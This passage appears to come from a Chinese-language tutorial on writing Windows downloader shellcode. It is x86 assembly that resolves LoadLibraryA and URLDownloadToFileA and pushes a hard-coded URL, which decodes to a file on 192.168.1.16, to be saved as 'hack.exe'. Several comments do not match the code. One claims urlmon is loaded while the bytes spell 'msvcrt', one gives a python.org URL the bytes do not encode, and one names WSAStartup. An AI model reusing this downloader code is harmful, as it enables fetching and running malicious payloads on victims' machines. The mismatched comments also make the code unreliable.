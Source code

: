 通过得到的LoadLibraryA函数入口，加载urlmon.dll

```asm
; Call LoadLibraryA(PTR "urlmon")
;   push "msvcrt",0x00 to the stack and save pointer
 xor eax, eax            ; clear eax
 mov ax, 0x7472          ; tr : 7472
 push eax
 push 0x6376736D         ; cvsm : 6376736D
 push esp                ; push the pointer to the string
 mov ebx, [ebp-0x20]     ; LoadLibraryA Address to ebx register
 call ebx                ; call the LoadLibraryA Function to load urlmon.dll
 mov [ebp-0x24], eax     ; save Address of urlmon.dll
```

通过`urlmon.dll`获得`URLDownloadToFileA`的入口地址

```asm
; Call GetProcAddress(urlmon.dll, "URLDownloadToFileA")
xor edx, edx
mov dx, 0x4165          ; Ae
push edx
push 0x6C69466F         ; liFo
push 0x5464616F         ; Tdao
push 0x6C6E776F         ; lnwo
push 0x444c5255         ; DLRU
push esp    		; push pointer to string to stack for 'URLDownloadToFileA'
push dword [ebp-0x24]   ; push base address of urlmon.dll to stack
mov eax, [ebp-0x1C]     ; PTR to GetProcAddress to EAX
call eax                ; GetProcAddress
;   EAX = WSAStartup Address
mov [ebp-0x28], eax     ; save Address of urlmon.URLDownloadToFileA
```

使用该函数进行[下载文件](https://www.exploit-db.com/shellcodes/13533)

```asm
;URLDownloadToFileA(NULL, URL, save as, 0, NULL)
download:
pop eax
xor ecx, ecx
push ecx
; URL: https://www.python.org/ftp/python/3.8.3/python-3.8.3.exe
push 0x6578652E         ; exe.
push 0x74646573         ; tdes
push 0x6F6F672F         ; oog/
push 0x33312E36         ; 31.6
push 0x352E3836         ; 5.86
push 0x312E3239         ; 1.29
push 0x312F2F3A         ; 1//:
push 0x70747468         ; ptth
push esp
pop ecx                 ; save the URL string
xor ebx, ebx
push ebx
; save as hack.exe
push 0x6578652E         ; exe.
push 0x6B636168         ; kcah
push esp
pop ebx                 ; save the downloaded filename string
xor edx, edx
push edx
push edx
push ebx
push ecx
push edx
mov eax, [ebp-0x28]     ; PTR to URLDownloadToFileA to EAX
```